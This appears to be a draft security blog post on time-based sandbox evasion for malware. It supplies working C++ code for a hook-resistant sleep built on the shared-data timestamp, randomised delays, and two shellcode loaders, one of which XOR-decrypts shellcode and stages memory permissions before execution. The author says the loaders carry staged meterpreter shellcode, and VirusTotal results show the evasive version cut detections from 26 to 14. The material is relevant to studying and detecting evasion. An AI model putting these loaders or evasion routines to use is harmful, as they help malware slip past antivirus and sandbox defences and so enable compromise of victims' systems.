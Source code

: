 ```yaml
---
title: "Sleepy malware is deadly malware"
date: 2022-11-20T14:28:34+01:00
draft: true
toc: false
images:
tags:
  - evasion antisandboxing 
---
```



## Sleep isn't for the weak
Time based evasion techniques **\[T1497\]** are a relatively painless and efficient way of avoiding sandboxes.

MEME HERE

Sandboxes are heavily relied on to detect malicious activity dynamically. Hence, it's a guarantee malware will do it's best at staying under the radar, achieving this by either blending in or timing out the sandbox.

One way of timing out the sandbox is simply making your malware sleep through it, exhausting the sandbox which makes it time out and assume the sample is benign.

However it's not *that* easy. Some modern detection solutions possess countermeasures against that, for example hooking sleep functions like `Sleep` in C/C++ or `Thread.Sleep` in C# to nullify the sleep, but also fast forwarding. TL;DR: Tampering to make the malware think it is in the clear.

A plethora of techniques can be applied to still "sleep", we will see some of them in this blogpost.

## Demonstration: Hooking sleep functions

`Sleep`, `SleepEx` and `Thread.Sleep` all boil down to the `NtDelayExecution` syscall.



## Weaponizing `__get_timestamp()`
Credits to Jordan Jay (Legacyy) for his amazing work on this.
I wont delve too deep on how this works as Legacyy himself [literally made a blogpost about it](https://www.legacyy.xyz/defenseevasion/windows/2022/07/04/abusing-shareduserdata-for-defense-evasion-and-exploitation.html) + the code is well commented.

```cpp
unsigned long long __get_timestamp()
{
	const size_t UNIX_TIME_START = 0x019DB1DED53E8000; // Start of Unix epoch in ticks.
	const size_t TICKS_PER_MILLISECOND = 1000; // A tick is 100ns.
	LARGE_INTEGER time;
	time.LowPart = *(DWORD *)( 0x7FFE0000 + 0x14 ); // Read LowPart as unsigned long.
	time.HighPart = *(long *)( 0x7FFE0000 + 0x1c ); // Read High1Part as long.
	return ( unsigned long long )( ( time.QuadPart - UNIX_TIME_START ) / TICKS_PER_MILLISECOND );
}
```

As a side note: I edited it to get the time in milliseconds.

##### Making a 

```cpp
void __alt_sleepms( size_t ms )
{
	volatile size_t x = rand(); // random buffer var 
	const unsigned long long end = __get_timestamp() + ms; // calculate when we shall stop sleeping
	while (__get_timestamp() < end) { x += 1; } // increment random var by 1 till we reach our endtime
}
```
And to be even more sneaky, we'll use a random time interval at each with sleep. 

Which we can ease by making a macro for that.

```cpp
#define INTERVAL rand() % 26 // Edit as you wish
#define MS_PER_SECOND 1000 
#define SLEEPTIME INTERVAL*MS_PER_SECOND // Make the use easier
```

Then we are simply able to 
```cpp
__alt_sleepms( SLEEPTIME );
```

## Loader
We will use a very basic loader for demo purposes.

I'll simply use a staged **HTTPS** meterpreter shellcode 

1. RWX memory, no shellcode encryption, no sleep in between instructions just simply loud and underdeveloped.
```cpp
#include <Windows.h>
#include "buf.h" // Header file containing our shellcode as "unsigned char buf[]"
int main()
{
	 //Allocate memory for our shellcode
     PVOID addr;
    addr = VirtualAlloc( NULL, sizeof( buf ), ( MEM_RESERVE | MEM_COMMIT ), PAGE_EXECUTE_READWRITE );

    memcpy( addr, buf, sizeof( buf ) );

    HANDLE hThread;
    DWORD id;
    hThread = CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)addr, NULL, 0, &id );

    WaitForSingleObject( hThread, INFINITE );
 
    return 0;

}
```

3. Loader with alternative sleep + shellcode encryption
```cpp
#include <Windows.h>
#include "buf.h" // Header file containing our shellcode as "unsigned char buf[]"
#include "snorlax.h" // Header file containing our time based evasion stuff
#include "utils.h" // Header file containing RNG related stuff.



#define INTERVAL rand() % 26 // Edit as you wish
#define MS_PER_SECOND 1000 
#define SLEEPTIME INTERVAL*MS_PER_SECOND // Make the use easier




int main()
{
    // seed our generator 
    srand( defaultseed ); 
    
    // decrypt our xor encrypted shellcode
    xor_bytes( buf, SHELLCODE_SIZE, key, KEYLEN );

    // Allocate RW memory
    PVOID addr = VirtualAlloc( NULL, sizeof( buf ), ( MEM_RESERVE | MEM_COMMIT ), PAGE_READWRITE );

    // Copy our shellcode to the allocated memory
    memcpy( addr, buf, sizeof( buf ) );


    // Now the interesting part where we can leverage sleeping
    // We basically change memory perms like RW -> R -> RX 
    DWORD oldProtect;
    VirtualProtect( addr, sizeof( buf ), PAGE_READONLY, &oldProtect );
    
    //Sleep( SLEEPTIME );
    __alt_sleepms( SLEEPTIME );

    VirtualProtect( addr, sizeof( buf ), PAGE_EXECUTE_READ, &oldProtect );

    //Sleep( SLEEPTIME );
    __alt_sleepms( SLEEPTIME );

    DWORD id;
    HANDLE hThread = CreateThread( NULL, 0, (LPTHREAD_START_ROUTINE)addr, NULL, 0, &id );

    WaitForSingleObject( hThread, INFINITE );

    return 0;

}

```

## Testing
Our testing of different versions of our loader will go as the following:
1. Loader with **0 evasion** and **0 shellcode encryption**
2. Loader with **0 evasion** but with **shellcode encryption**
3. Loader with both **time based evasion** (fast forward check, alternative sleep in between changes of memory permissions) and **shellcode encryption**

With nothing: https://www.virustotal.com/gui/file/98d4134cb824d533a92920f58a14d7c0fb7543520c950b27943263cbe1389244?nocache= (26/72)

Regular sleeps + changing memory perms: https://www.virustotal.com/gui/file/0d2d6284207fa529fcc05a1091cf3094203576d00d3d381302cb24c4f1f68336?nocache=1 (25/70)

Alt sleep + changing memory perms :https://www.virustotal.com/gui/file/c9c4edcc4e7d5ce5311642f12c2b3884194951c075f106e1bb1452d9dae48bd1?nocache=1 (14/70)


This is in the sole goal of knowing the efficiency of each version and therefore of this alternative sleeping method, by using a regular loader detection rate as a baseline for our test and then comparing the regular sleeping method with the alternative one.


Results are at the time of testing, the detection ratio might have changed in between the post and its creation.


# Credits/Sources
Jordan Jay ([@0xLegacyy](https://twitter.com/0xLegacyy)), [blog](https://www.legacyy.xyz) 